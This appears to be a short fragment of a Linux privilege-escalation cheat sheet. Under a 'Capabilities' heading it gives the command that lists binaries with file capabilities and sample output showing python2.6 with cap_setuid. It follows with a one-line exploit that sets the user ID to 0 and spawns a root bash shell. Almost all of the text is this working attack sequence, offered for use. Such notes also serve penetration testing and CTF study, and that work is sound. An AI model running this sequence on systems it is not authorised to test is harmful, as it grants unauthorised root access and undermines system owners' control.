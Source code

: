  ## Capabilities 
 
 
 Type Command
 
    getcap -r / 2>/dev/null
 
Output
 
 /usr/bin/python2.6 = cap_setuid+ep
   
   
Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
